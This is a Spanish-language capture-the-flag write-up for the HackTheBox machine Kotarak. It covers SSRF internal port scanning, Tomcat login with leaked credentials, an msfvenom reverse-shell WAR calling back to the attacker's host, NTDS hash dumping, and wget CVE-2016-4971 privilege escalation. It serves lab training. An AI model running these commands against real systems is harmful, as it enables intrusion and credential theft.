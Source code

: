 -----
- Tags: #tomcat #SSRF #NTDS #CVE-2016-4971 #malicious-war
--------
## Técnicas utilizadas
- Server Side Request Forgery (SSRF) [Internal Port Discovery]  
- Information Leakage [Backup]  
- Tomcat Exploitation [Malicious WAR]  
- Dumping hashes [NTDS]  
- Wget 1.12 Vulnerability [CVE-2016-4971] [Privilege Escalation] (PIVOTING)
## Procedimiento

![[Pasted image 20230629185205.png]]

#### Reconocimiento
Si lanzamos un **Nmap** podemos ver los siguientes puertos abiertos:
```ruby
# nmap -sCV -p22,8009,8080,60000 10.10.10.55 -oN Ports
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-29 22:29 MST
Nmap scan report for 10.10.10.55
Host is up (0.13s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2d7ca0eb7cb0a51f72e75ea02241774 (RSA)
|   256 e8f1c0d37d9b4373ad373bcbe1648ee9 (ECDSA)
|_  256 6de926ad86022d68e1ebad66a06017b8 (ED25519)
8009/tcp  open  ajp13   Apache Jserv (Protocol v1.3)
| ajp-methods: 
|   Supported methods: GET HEAD POST PUT DELETE OPTIONS
|   Potentially risky methods: PUT DELETE
|_  See https://nmap.org/nsedoc/scripts/ajp-methods.html
8080/tcp  open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Potentially risky methods: PUT DELETE
|_http-title: Apache Tomcat/8.5.5 - Error report
60000/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title:         Kotarak Web Hosting        
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 54.09 seconds
```

Un escaneo con **whatweb** nos presenta las siguientes tecnologías web corriendo por detrás:
``` ruby
# whatweb 10.10.10.55:8080 && whatweb 10.10.10.55:60000
http://10.10.10.55:8080 [404 Not Found] Apache-Tomcat[8.5.5], Content-Language[en], Country[RESERVED][ZZ], HTML5, IP[10.10.10.55], Title[Apache Tomcat/8.5.5 - Error report]
http://10.10.10.55:60000 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.55], Title[Kotarak Web Hosting][Title element contains newline(s)!]
```

-----
#### Server Side Request Forgery (SSRF) [Internal Port Discovery]  
Tenemos dos paginas webs, una por el puerto **8080** que esta corriendo un **TomCat** y otra que esta coriendo por el puerto **60000** que contiene una pagina personalizada la cual nos indica que es como un navegador.
En el **TomCat** no podemos hacer realmente nada, si intentamos ingresar al apartado de **Manager** con las credenciales por defecto `tomcat:s3cr3t` no nos funciona.

Por otro lado, en la pagina que funciona como navegador web, vemos que si hacemos una consulta al propio **localhost** por cualquier de sus puertos abiertos podemos visitar la pagina, esto quiere decir que se esta aconteciendo un **SSRF** que quizás vamos a poder convertir en un **Internal Port Discovery**.

Podemos intentar descubrir los puertos con **BurpSuite** o con **Wfuzz**, nosotros usaremos **wfuzz**:
```java
# wfuzz -c --hh=22 -z range,1-65535 "http://<iP>:60000/url.php?path=http://localhost:FUZZ"
```

Con los puertos identificados, podemos ir visitando uno por uno para ver si encontramos algo interesante.
Damos con un **BackUp**:
![[Pasted image 20230629224442.png]]

En este **BackUp** podemos ver unas credenciales:
![[Pasted image 20230629224456.png]]

Estas credenciales nos sirven para iniciar sesión en el **TomCat**, y con esto el acceso a la maquina esta casi garantizado.

--------
#### Tomcat Exploitation [Malicious WAR]
Procederemos a crear un archivo *.war* malicioso con **msfvenom**. La manera de hacerlo es el siguiente:
```
# msfvenom -p java/jsp_shell_reverse_tcp LHOST=<NuEsTrA-iP> LPORT=<nUeStRo-PuErTo> -f war -o shell.war
```

Resta ponernos en escucha y subir el *.war* al tomcat y acceder al enlace de este para que se nos otorgue una **reverse shell**.

-------
#### Dumping hashes [NTDS]  
Dentro de la maquina, enumerando archivos, podemos encontrar un **directorio** con nombre **pentest_data** el cual contiene dos archivos. Estos archivos hacen referencia a los tipos de archivo **NTDS**.
Nos traemos estos archivos a nuestra maquina para intentar dumpear los hashes con herramientas como **impacket-secretdump** de la siguiente manera:
```
# impacket-secretdump -ntds ntds.dit -system ntds.bin LOCAL
```

Esto nos va a dumpear varios hashes. Si estuvieramos en una maquina **windows** hubieramos podido hacer **pass-the-hash**. Podemos intentar romper estos hashes con **John**, con **HashCat** o con la propia pagina de **CrackStation**
Podemos filtrar por la parte que nos interesa del hash rapidamente con **awk**:
```
# cat hashes | awk '{print $4}' FS=":"
```

------
#### Wget 1.12 Vulnerability [CVE-2016-4971] [Privilege Escalation] (PIVOTING)
Una vez estemos como el usuario **Atanas** podemos observar que podemos entrar al directorio de root e intentar leer la flag, sin embargo, vemos que es un **rabit hole** porque simplemente nos imprime un mensaje diciendonos que estamos cercas. En el mismo directorio hay un archivo que al leerlo, vemos que hay una **iP** que nos esta haciendo un **GET** y descargando un archivo de nuestra maquina.

Podemos ponernos en escucha con **nc** por el puerto **80**. Como sabemos, los usuarios con privilegios minimos no podemos ejecutar este tipo de comandos, pero gracias a una configuracion en **authbind** podemos ejecutar:
```
# authbind  python3 -m http.server
```

Vemos que nos llega una petición por **GET**. Vemos que la versión de **wget** con la que se hace la petición hacia la maquina es antigua y cuenta con una vulnerabilidad de tipo **Remote Command Execution**.
Podemos seguir los pasos que vienen en el texto, y en la parte del script a la hora de definir la tarea cron poner la que se nos apetezca.